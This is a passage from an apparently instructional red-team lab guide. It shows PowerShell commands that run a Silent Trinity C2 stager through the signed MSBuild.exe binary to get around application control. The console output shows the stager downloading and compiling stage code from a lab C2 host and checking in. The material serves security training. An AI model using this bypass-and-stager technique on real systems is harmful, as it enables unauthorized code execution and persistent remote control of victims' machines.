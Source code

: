 ### Execution of MSBuild Stager
Under the context of an environment where application control is in effect the MSBuild.exe binary can be useful. While this lab environment does not restrict application execution in this manner, this lab section will demonstrate malware stager executed using Microsoft-Signed MSBuild. 

Next, in Powershell, run the following command to execute the stager for Silent Trinity with the trusted MSBuild binary.

![PowershellInput][PowerShellInput]
```powershell
cd c:\Windows\Microsoft.NET\Framework64\v4.0.30319\
.\MSBuild.exe c:\Users\itadmin\Downloads\stager.xml

     (Note if the above fails, try:)

.\MSBuild.exe c:\Users\itadmin.labs\Downloads\stager.xml

```

![PowershellOutput][PowerShellOutput]

```powershell
C:\Users\taadmin.labs>
C:\Users\taadmin.labs> cd c:\Windows\Microsoft.NET\Framework64\v4.0.30319\

c:\Windows\Microsoft.NET\Framework64\v4.0.30319>MSBuild.exe c:\Users\taadmin.labs\Downloads\stager.xml
Microsoft (R) Build Engine version 4.8.3752.0
[Microsoft .NET Framework, version 4.0.30319.42000]
Copyright (C) Microsoft Corporation. All rights reserved.

Build started 3/16/2020 6:58:05 PM.
[+] URLS: https://10.10.98.20:4444
[*] Attempting HTTP POST to https://10.10.98.20:4444/521a336b-e199-4bff-a81a-2207f37d79b2
[-] Attempt #1
[*] Attempting HTTP GET to https://10.10.98.20:4444/521a336b-e199-4bff-a81a-2207f37d79b2
[-] Attempt #1
[*] Downloaded 569104 bytes
        [-] 'Boo.Lang.Compiler.dll' was required...
        [+] 'Boo.Lang.Compiler.dll' loaded...
        [-] 'Boo.Lang.dll' was required...
        [+] 'Boo.Lang.dll' loaded...

[*] Compiling Stage Code
        [-] 'Boo.Lang.Extensions.dll' was required...
        [+] 'Boo.Lang.Extensions.dll' loaded...
        [-] 'Boo.Lang.Parser.dll' was required...
        [+] 'Boo.Lang.Parser.dll' loaded...
        [-] 'Microsoft.VisualBasic.Devices.dll' was required...
[+] Compilation Successful!
[*] Executing
z8DiGrOcG3 CheckIn
```


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/